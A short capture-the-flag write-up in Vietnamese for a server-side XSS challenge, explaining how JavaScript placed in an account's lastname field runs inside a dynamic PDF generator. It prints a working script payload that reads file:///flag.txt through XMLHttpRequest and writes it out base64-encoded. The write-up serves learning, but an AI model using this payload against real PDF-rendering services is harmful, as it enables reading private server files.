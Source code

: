 # XSS - Server Side

## Solution

Để solve challenge, cần tận dụng một điều mà các DEV không kiểm tra là dynamic PDF sau khi tạo tài khoản với `lastname` có chứa mã javascript như thế này

```
<script>
   x=new XMLHttpRequest; x.onload=function(){document.write(btoa(this.responseText))};
   x.open("GET","file:///flag.txt");x.send();
</script>
```

và sau đó click vào generate code sẽ nghĩ rằng thẻ script chỉ là html và nó sẽ chạy mã js và lấy tệp `flag.txt`

Đầu ra nhận được sẽ được mã hóa ở dạng base64 để giải mã và lấy flag
